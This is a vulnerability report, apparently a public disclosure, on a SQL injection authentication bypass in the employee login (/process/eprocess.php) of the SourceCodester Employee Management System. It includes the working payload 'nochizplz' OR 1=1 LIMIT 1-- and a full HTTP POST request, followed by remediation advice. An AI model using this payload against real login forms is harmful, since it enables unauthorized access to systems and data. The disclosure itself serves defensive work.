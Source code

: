 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - Employee Login SQL Injection Authentication Bypass Report

### Title: Employee Login SQL Injection Authentication Bypass
### Affected Component: /process/eprocess.php
### CWE-287: Improper Authentication
### CVSS Base Score: 7.5 (Self-rated with the assistance of an online CVSS calculator)

### Impact:
The SQL injection authentication bypass vulnerability in the employee login functionality poses a significant security risk, allowing unauthorized access to the system. Exploiting this flaw enables attackers to manipulate the mailuid parameter and inject SQL syntax, bypassing authentication mechanisms and potentially gaining unauthorized entry to sensitive areas of the application. The exploit's consequences include unauthorized data access, integrity manipulation, and potential compliance violations, highlighting the critical need for mitigation measures.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, attackers manipulate the mailuid parameter in the employee login page (`elogin.html`). By injecting the payload `'nochizplz' OR 1=1 LIMIT 1--` into the mailuid field, they exploit SQL injection to bypass authentication and access sensitive areas of the application. This exploit leverages the `1=1` condition to retrieve the first user's credentials, potentially compromising sensitive data.

#### HTTP Request:
```http
POST /process/eprocess.php HTTP/1.1
Host: [REDACTED]
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://[REDACTED]/elogin.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid='nochizplz'+OR+1=1+LIMIT+1--&pwd=nochizplzsad&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.

